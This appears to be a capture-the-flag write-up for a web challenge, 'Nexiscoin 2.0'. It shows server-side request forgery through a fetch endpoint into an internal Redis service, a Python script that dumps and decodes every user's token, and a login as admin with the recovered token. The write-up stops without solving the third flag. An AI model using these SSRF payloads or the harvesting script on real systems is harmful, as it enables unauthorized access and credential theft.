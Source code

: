 ```yaml
---
layout: Post
type: chall
---
```

# Nexiscoin 2.0

## Flag 1

### Recon

We are given a website with documentation about it's API, we learn that there are `/admin/` routes that require the correct Access Token, and that there is a whole transaction system with blockchain (This is not a Web3 challenge, it's just a simulation).

we can't do much with it, login/register routes are "disabled by admin", and all the transactions data are read-only.

Looking around some more with burp we see a `GET /fetch?url=http://127.1:7379/GET/total_account HTTP/1.1` being done by the website. The `/GET/total_account` looks like a redis command, let's try to pass the request: `/KEYS/*`.

It works! We get 682 keys, two of them are not API keys but data points: `total_transaction` and `total_account`.

> Flag 1: How many users are registered on the platform?
> 680

## Flag 2

The 680 keys appear to be user IDs, let's try to call `/GET/<API_key>` on one of them, we get a hash, that when decoded from base58 gives the following:

```py
{
  'header': {
    'version': 2
  },
  'payload': {
    'user': 'hsalazar@madden-riley.org',
    'type': 'user',
    'permission': 'read,write'
  },
  'signature': '44234ab207b239ab94b2c7c1199b1ee921ff8b213d1e86b6af797d339fdb5227'
}
```

Interesting, we can try to bruteforce the API to fetch all the data from all the users:

```py
import requests
from time import sleep
import json
import base58

print("key;data")

for l in L:
    res = requests.get(f"http://138.195.249.52:5000/fetch?url=http://127.1:7379/GET/{l}")
    if res.status_code != 200:
        print(f"Error for {l}")
        break
    data = json.loads(res.text)
    hash = data['GET'].replace("['", "").replace("']", "")
    decoded = json.loads(base58.b58decode(hash).decode())

    print(f"{l};{decoded}")
    sleep(.1)
```

We this we get [data.csv](data.csv) of all the file data for each user, and their signature.

Looking for anything that stands out we find the `admin` user:

```csv
token_FjVQph;{'header': {'version': 2}, 'payload': {'user': 'admin@nexiscoin.ev', 'type': 'admin', 'permission': 'read,write'}, 'signature': 'a633755fd62582550c05768e204c0cb324ab72b01442ebb04491ca3be7269414'}
```

> Flag 2: What is the signature of the admin user?
> a633755fd62582550c05768e204c0cb324ab72b01442ebb04491ca3be7269414

## Flag 3

From here, the first thing that comes to mind is to try and login as the `admin`, to do so we use the API and try to login as that user, after some trial and error I found that you cna login using a accessToken which is the base58 data we are given for a user:

`POST http://138.195.249.52:5000/api/login` with as a body:

```json
{
  "token": "2ecXF5d83jGAhHH2gjfYSJGifh9NcVo3CmQ584nkUu9kA9KrxmN3JX2USYJaaPV5pE7BMKmG4pw3zRUUDXCQjE3CY2mm3Uk9P8DwM4tujjHKVDjTVDAgcNfWx2DAMTWNiKtM4BYyJeqouup5m4b322W19ecXNy3fGD2iViPeb62pibdB63WKehVq6R5m9voW83HnxtpnfFxsarx9aSundV24WmF7w4mHUeH75PXmKP579qeUKnUBHRw8vbcDmXAEZV6QdWp5nm2
}
```

This gives us:

```json
{
    "access_token1": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczMzU4Mjk2OCwianRpIjoiZDIwOGMxNDUtZWY3Mi00MWZkLTk2ZjUtMTY1ODhlOTQxOGNmIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6eyJpZCI6MSwiZW1haWwiOiJhZG1pbkBuZXhpc2NvaW4uZXYiLCJ0eXBlIjoidXNlciJ9LCJuYmYiOjE3MzM1ODI5NjgsImNzcmYiOiIzMDlmZDIwZS1lYzE0LTRiNzAtYTk3Mi0xMDhkNmNiMWUwN2IiLCJleHAiOjE3MzM1ODM4Njh9.WncmQRRCR0dYKMOxxN3wqmeNGX4Rfh1OsybLHMCzIrI",
    "access_token2": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczMzU4Mjk2OCwianRpIjoiODQ0N2VlOWQtNzhiYi00ZWRhLTkyNjItNDRmZTY0ZWRiMjdlIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6eyJpZCI6MSwiZW1haWwiOiJhZG1pbkBuZXhpc2NvaW4uZXYiLCJ0eXBlIjoidXNlciJ9LCJuYmYiOjE3MzM1ODI5NjgsImNzcmYiOiI4MzRmMWJlYy0wN2VhLTQ4NzgtODI0Ni1lZmUyYWEwNDVhZmIifQ.vK_fOWH80yqDGxuJxQQ5gb5AX8hG42XkJzOIGtLSGhE"
}
```

Both have standard header with `HS256`.

`access_token1`:

```json
{
  "fresh": false,
  "iat": 1733582968,
  "jti": "d208c145-ef72-41fd-96f5-16588e9418cf",
  "type": "access",
  "sub": {
    "id": 1,
    "email": "admin@nexiscoin.ev",
    "type": "user"
  },
  "nbf": 1733582968,
  "csrf": "309fd20e-ec14-4b70-a972-108d6cb1e07b",
  "exp": 1733583868
}
```

`access_token2`:

```json
{
  "fresh": false,
  "iat": 1733582968,
  "jti": "8447ee9d-78bb-4eda-9262-44fe64edb27e",
  "type": "access",
  "sub": {
    "id": 1,
    "email": "admin@nexiscoin.ev",
    "type": "user"
  },
  "nbf": 1733582968,
  "csrf": "834f1bec-07ea-4878-8246-efe2aa045afb"
}
```

But from here I attempted to call the `/admin/` routes of the API or even just access transactional data for the user with many different techniques, but nothing worked.

At some point the admins gave us a huge dump of all the sell/buy/transactions in the database (looks like I wasn't the only one struggling with logins 😅)

From here we have to comb trough a ton of data. I wrote some scripts, tried to parse it as much as possible, I always ended up with dead ends, the issue came from the ambiguity of the question:

> Flag 3: Who is the user that made more than 15 transactions of 40000USD.

We are unsure of:

- the format of the flag,
- if 15 is counted as a transaction or not
- if the user has to have made 15 transactions of 40000USD or 15 transactions of each 40000USD or more.

My best shot gave me 18 potential suspects, though the CTFd had a plugin that would also remote points for failed attempts. Loosing 100pts for each try, and the flag only values at 700 points, it was too much risk to try and guess the flag.
